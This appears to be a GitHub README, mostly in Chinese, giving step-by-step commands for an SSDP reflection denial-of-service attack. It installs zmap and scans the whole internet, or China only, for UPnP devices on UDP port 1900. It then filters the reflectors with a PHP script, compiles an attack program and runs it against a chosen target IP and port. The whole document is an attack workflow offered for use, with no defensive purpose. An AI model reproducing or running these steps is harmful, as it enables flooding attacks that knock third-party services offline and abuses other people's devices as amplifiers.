 # SSDP
```
yum -y install gcc+ gcc-c++<br>
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap<br>
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel<br>
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz<br>
tar -zvxf gengetopt-2.22.6.tar.gz<br>
cd gengetopt-2.22.6<br>
./configure<br>
make
make install<br>
```
安装zmap<br>
```
yum install git<br>
git clone https://github.com/zmap/zmap<br>
cd zmap/<br>
cmake .<br>
make -j4<br>
make install<br>
```
安装完成！<br>
扫描全球：
```screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt<br>```
扫描国内：
```screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt```
扫描完成后,我们开始执行过滤!<br>
过滤 ： 
```php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000```
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
```
gcc -pthread ssdp.c -o ssdp<br>
```
攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
